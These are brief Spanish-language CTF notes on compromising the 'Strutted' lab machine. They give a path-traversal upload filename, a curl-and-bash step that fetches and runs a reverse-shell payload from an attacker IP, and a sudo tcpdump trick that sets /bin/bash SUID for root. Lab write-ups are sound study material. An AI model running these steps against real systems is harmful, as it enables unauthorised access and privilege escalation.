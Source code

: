 # Strutted - TryHackMe

**IP:** 10.10.11.59

## Stack Tecnológico
- Apache Struts
- Tomcat
- Java (OpenJDK)
- Docker

## Credenciales encontradas
- admin : 
- james :  (SSH)

## Vector de Explotación
- Modificación de campo `top.uploadFileName`:
  ```
  ../../test.asp
  ```

## Reverse Shell
```bash
curl 10.10.15.53 -o /tmp/reverse
bash /tmp/reverse
```

## Escalada de Privilegios
```bash
COMMAND='chmod 4777 /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
bash -p
```
